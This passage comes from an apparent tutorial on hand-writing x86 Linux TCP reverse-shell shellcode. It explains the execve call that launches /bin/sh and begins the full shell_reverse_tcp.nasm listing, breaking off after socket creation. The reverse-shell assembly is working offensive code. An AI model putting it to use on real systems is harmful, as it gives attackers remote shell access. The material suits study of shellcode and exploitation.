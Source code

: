 #### Execve System Call
_Note from the author:_ The purpose of `execve` is the same in both TCP reverse and TCP bind shells. After further experimentation, however, it was discovered the value of `NULL` can be passed for the second and third arguments of `execve`. This is to say that `NULL` terminated pointers do not need to be created using `PUSH` instructions, as was demonstrated in the TCP bind shell cpde. In this case, `NULL` is passed via `ECX` and `EDX` for the second and third arguments of `execve`.

The final step is a system call to `execve` in order to execute `/bin/sh`. From `unistd_32.h` the system call number for `execve` is decimal `11`.

```shell
#define __NR_execve 11
```

The `execve` system call expects three arguments which were explained during the analysis of the C program that will be passed via the `EBX`, `ECX`, and `EDX` registers in the code below.

```nasm
; Execute Program
; int execve(const char *pathname, char *const argv[], char *const envp[]);
; execve("/bin/sh", NULL, NULL);
push edx            ; delimiting NULL for pathname; EDX is NULL for envp[]
push 0x68732f2f     ; //sh
push 0x6e69622f     ; /bin
mov ecx, edx        ; NULL for argv[]
mov ebx, esp        ; pointer to pathname
mov al, 0xb         ; execve
int 0x80
```

To prepare the three arguments for `execve`, the `/bin/sh` string is first stored on the stack using `PUSH` instructions. The first `PUSH` shown in the code above serves to `NULL` terminate the `/bin/sh` string. Note that `EDX` is `NULL` and will be passed as the third argument to `execve`. Next, the `/bin/sh` string itself is pushed to the stack. Then, the empty `EDX` register value is moved to `ECX` which will be passed as the second argument to `execve`. At this point, `ESP` stores the memory address of where the `/bin/sh` string is stored, and hence this memory address is moved to `EBX` which will be passed as the first argument for `execve`. The `execve` system call number is moved into `AL` before the software interrupt occurs.

### Completed Assembly Program
Shown below is the assembly program described above in its entirety. Some of the comments from the code above have been removed. The fully commented version of the code can be found on GitHub.

```nasm
; shell_reverse_tcp.nasm
; Author: Michael Norris

global _start

section .text
_start:
    ; clear registers
    xor edx, edx
    xor ecx, ecx
    xor ebx, ebx
    xor eax, eax

    ; int sockfd = socket(AF_INET, SOCK_STREAM, 0);
    push edx            ; 0
    push 0x1            ; 1 = SOCK_STREAM
    push 0x2            ; 2 = AF_INET
    mov ecx, esp        ; *args
    inc bl              ; 1 = sys_socket
    mov al, 0x66        ; socketcall
    int 0x80            ; returns int sockfd in eax
    
    ; Store int sockfd in ebx;
```